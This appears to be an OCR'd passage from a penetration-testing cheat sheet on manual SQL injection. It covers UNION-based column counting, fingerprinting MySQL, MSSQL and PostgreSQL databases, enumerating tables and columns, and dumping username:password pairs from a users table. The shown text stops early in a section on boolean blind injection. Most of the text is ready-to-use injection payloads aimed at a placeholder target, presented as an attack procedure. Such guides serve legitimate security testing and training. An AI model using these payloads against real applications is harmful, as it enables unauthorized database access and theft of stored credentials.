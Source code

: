- **Manual SQL Injection Exploitation Steps**:
1. **Incrementally Test**:
   - Start with `UNION SELECT 1--` (if the normal query is `...FROM table WHERE id=X`).
   - If that fails, try `UNION SELECT 1,2--`. Keep increasing until the page doesn’t error.  
   - For example, if `UNION SELECT 1,2,3--` works, you know the table has (or the SELECT uses) 3 columns.
2. **Identify Output Columns**:
   - Once you find the correct number of columns, see which column(s) return visible data on the page. Example:
     ```
     http://<TARGET>/page?id=-1 UNION SELECT 1,2,3--
     ```
     If the second column appears in the rendered page, that is a good place to extract data.
**Extract Database Info Manually**
1. **Database Info**:
   - For MySQL, try:
     ```sql
     UNION SELECT 1,database(),version()--
     ```
     or  
     ```sql
     UNION SELECT 1,@@version,@@datadir--
     ```
   - For MSSQL, you might do `@@version` or `db_name()`.  
   - For PostgreSQL, `version()` or `current_database()`.
2. **List Tables**  
   - **MySQL**:
     ```sql
     UNION SELECT 1,table_name,3 FROM information_schema.tables 
       WHERE table_schema=database()--
     ```
   - **MSSQL**:
     ```sql
     UNION SELECT 1,name,3 FROM sysobjects 
       WHERE xtype='U'--
     ```
3. **List Columns**  
   - **MySQL**:
     ```sql
     UNION SELECT 1,column_name,3 FROM information_schema.columns 
       WHERE table_name='users'--
     ```
   - **MSSQL**:
     ```sql
     UNION SELECT 1,name,3 FROM syscolumns 
       WHERE id=OBJECT_ID('users')--
     ```
4. **Dump Table Data**  
   - For **MySQL** table `users(username, password)`, you could do:
     ```sql
     UNION SELECT 1,concat(username,':',password),3 
       FROM users--
     ```
   - Always watch for potential encoding or escaping. Also, if columns have sensitive data, you can parse it from the page output.
**Blind Injection (Boolean/Time-Based)**
If error or UNION-based injection fails:
1. **Boolean Injection**  
   - Test conditions:
     - `id=1' and 1=1--` vs. `id=1' and 1=2--`.  
     - If the page content differs (true vs. false), you have a **blind Boolean** vector.  
   - Then you can do more granular checks, e.g.:  
     - Checking the length of the database name: `id=1' AND length(database())>5--`.  
     - If page is true, you keep narrowing (binary search approach) for the exact length.